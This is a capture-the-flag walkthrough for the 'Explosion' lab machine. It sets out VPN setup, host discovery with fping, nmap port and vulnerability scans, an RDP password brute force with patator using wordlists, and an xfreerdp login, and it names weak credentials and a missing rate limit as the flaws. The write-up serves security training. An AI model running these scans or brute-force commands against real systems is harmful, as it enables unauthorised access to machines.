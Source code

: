 # Explosion Walkthrough
## Basic instruction to start the lab

###### Establish VPN connection
By using openVPN tool you can establish VPN connection.
```bash
openvpn blabla.ovpn
```
> Replace blabla.ovpn with your own VPN profile.

###### Test connection
One of the most popular to test the connectio between two end-points is ping.
```bash
ping <target_ip>
```
> Take in your considration, the way to test the connection and check if the host is live (ping). On the real life environment, most likely ping is denied on the network level or on the host to make identify hosr life harder.

```bash
fping -a -g 10.129.145.72/24 2> /dev/null | tee 00-fping-host-discovery.result
```
> I am usually depending on fping to discover the live hosts within specific ranges via ping method.

###### Scan the open ports and banner grabbing
nmap one of the most popular tool to scan the hosts and perform banner grabbing.
```bash
nmap -sS <host_ip> -A --osscan-guess

[Options]
-A: Enable OS detection, version detection, script scanning, and traceroute
--osscan-guess: Guess OS more aggressively
```

###### Run vulnerability scan via nmap
```bash
nmap -sS 10.129.145.72 -p 135,139,445,3389 --script vuln -oA 02-nmap-run-vuln-script.result
```

###### Bruteforce RDP via [patator tool](https://github.com/lanjelot/patator)
> Patator is exist amid the kali linux suite.
```
patator rdp_login host=10.129.145.72  0=~/Desktop/sec-lists/misc/SecLists-master/Usernames/top-usernames-shortlist.txt 1=~/Desktop/sec-lists/misc/SecLists-master/Usernames/top-usernames-shortlist.txt password=FILE1 user=FILE0 
```
> To solve the machine you have to find the correct credential.

> Connect RDP through xfreerdp `xfreerdp /v:<target_ip> /u:<username> /cert:ignore /p:<password>`

###### Weakness!
* Weak credentials.
* Missing rate-limit. 

<p align="center" text> Good Luck </p>
<p align="center" text> Kemet </p>

